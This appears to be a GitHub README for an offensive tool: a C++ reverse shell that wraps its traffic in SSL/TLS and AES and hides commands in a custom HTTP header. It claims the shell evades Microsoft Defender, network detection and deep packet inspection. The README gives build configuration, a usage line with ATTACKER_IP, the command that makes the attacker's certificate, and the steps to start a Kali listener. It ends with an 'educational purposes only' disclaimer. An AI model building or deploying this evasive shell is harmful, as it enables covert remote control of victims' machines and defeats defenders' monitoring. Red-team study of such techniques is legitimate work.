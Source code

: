 # Encrypted SSL/TLS C++ Reverse Shell (HTTPS)
<span style="color:green;">Status: Undetected (Tested on couple AV solutions including defenders)</span>

## Overview
When it comes to SSL/TLS reverse shells, the publicly available options are often limited to:
- **Using `msfvenom` to generate an HTTPS reverse shell (Signatured)**.
- **Using a PowerShell / Python payload (high level languages)**.

### Why Do We Need One?
Using a standard reverse shell often results in unencrypted traffic, which can be easily flagged by **Network Detection and Response (NDR)** systems or firewalls. These tools inspect network traffic and can identify remote code execution patterns, blocking the binary and alerting defenders.

An encrypted reverse shell helps evade such detection by:
1. Encrypting all communication, making it harder for network tools to inspect the traffic.
2. Using SSL to blend in with legitimate HTTPS traffic.

To address this gap, I created a simple **C++ SSL Reverse Shell** POC (commented and explained):
- **Undetected** by Microsoft Defender and some other AV solutions at the time of publishing.
- Enables secure communication via SSL, reducing the chance of detection.
- Using AES Encryption / Decryption and embedding the results and commands within HTTP headers to bypass deep packet inspection.

> **Note**: I tested the binary against a limited set of antivirus solutions, and results may vary across environments.

---

## Purpose of the POC

This Proof of Concept (POC) demonstrates how to build a reverse shell that utilizes **SSL/TLS encryption** and **AES encryption/decryption** to achieve secure communication between the attacker and the target. The main objectives and functionality of this POC are as follows:

- **Avoid Detection**: By using SSL/TLS (the same protocol used for legitimate HTTPS traffic), the reverse shell traffic blends in with regular encrypted web traffic, making it much harder to detect by Network Detection and Response (NDR) systems or firewalls.
- **Encrypted Communication**: The communication between the client (target) and the attacker is encrypted using **AES** (Advanced Encryption Standard). This ensures that even if the traffic is intercepted, it cannot be easily read or tampered with without the correct decryption key.
- **Command Execution in Encrypted Form**: Commands are **encrypted** on the server side and sent to the client over the SSL connection. The client decrypts these commands, executes them, and then sends back the encrypted output to the attacker.
- **Embedding Commands in HTTP Headers**: The encrypted command is embedded within a custom HTTP header (`X-Command`), allowing it to pass through web proxies, firewalls, or any other inspection system that may be scanning traffic for unusual activity. This technique makes the reverse shell more difficult to detect by conventional network traffic analysis tools.
- **Simulating Legitimate HTTPS Traffic**: By using HTTPS (SSL/TLS) and embedding encrypted payloads within HTTP headers, the reverse shell traffic appears as regular secure web traffic, which helps evade deep packet inspection (DPI) systems that are typically used to identify malicious traffic patterns.
- **Encrypted Results Sent Back**: The results of the executed commands are also encrypted using **AES** and sent back to the attacker through the SSL connection. This ensures that the response is equally protected and remains secure during transmission, preventing interception , tampering or detection by unauthorized parties.

The goal of this POC is to illustrate a method of bypassing common network security mechanisms by employing common, but underused, techniques to maintain the confidentiality and integrity of the communication channel. It is important to note that while the reverse shell is **undetected** by some AV solutions, it is **not guaranteed** to bypass all defenses.

---

## Setup Instructions
Follow these steps to set up the project:

1. **Download the Necessary Files**:
   - Clone the repository:  
     ```bash
     git clone https://github.com/V-i-x-x/SSLReverseShell.git
     ```
   - Download `OpenSSLWin64.zip` (linked in the repository).

2. **Extract OpenSSL Libraries**:
   - Unzip `OpenSSLWin64.zip` into a folder of your choice.  
     For example, in the project, I placed it in the `C:\` directory.

     ```plaintext
     C:\OpenSSLWin64
     ```

3. **Compile the Project**:
   - Ensure the project includes the OpenSSL libraries for successful compilation into a single `.exe` binary.

---

## Additional Notes
- **OpenSSLWin64**: This is the precompiled SSL library required for the project. Ensure it is correctly set up to avoid linking issues.
- **Testing**: While the binary is undetectable by some AV solutions as of now, this is not guaranteed against all antivirus software or future updates.

---

## Configuration In Visual Studio

1- Go to C/C++ → Code Generation → Runtime Library.  
Set this to Multi-threaded (/MT) to ensure that your application links statically against the runtime libraries, which helps in creating a single binary.

![Local Image](./images/MT.png "MT FLAG")

2- Configuration Properties > C/C++ > General, add the path to the OpenSSL include directory (C:\OpenSSLWin64\install\include) to Additional Include Directories.

![Local Image](./images/Include.png "Include Libraries")

3- Under Configuration Properties > Linker > General, add the path to the OpenSSL library directory (C:\OpenSSLWin64\install\lib) to Additional Library Directories

![Local Image](./images/Linker1.png "Linker.png")

4- Under Configuration Properties > Linker > Input, add the following to Additional Dependencies:  
C:\OpenSSLWin64\install\lib\libssl.lib  
C:\OpenSSLWin64\install\lib\libcrypto.lib

![Local Image](./images/Linker2.png "Linker.png")

---

## Usage

```
Usage: C:\Users\Vixx\Downloads\SSLReverseShell.exe <ATTACKER_IP> <ATTACKER_PORT>
Example: SSLReverseShell.exe 192.168.100.10 443
```

---

## Capture the reverse shell in your Kali OS

1- Generate a New RSA Private Key and Self-Signed Certificate (Containing the Public Key)
```
openssl req -newkey rsa:2048 -nodes -keyout attacker.key -x509 -days 365 -out attacker.crt
```
2- Python Script will be the server to capture the shell and send the command back to client (encrypted with aes)
- Install required library

```
pip3 install pycryptodome
```
- Start the Server
```
┌──(kali㉿kali)-[~/Desktop/pen-300/sslrevshell]
└─$ python3 sslserverv1.3.py      
[*] Listening on 0.0.0.0:443
```
---

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.
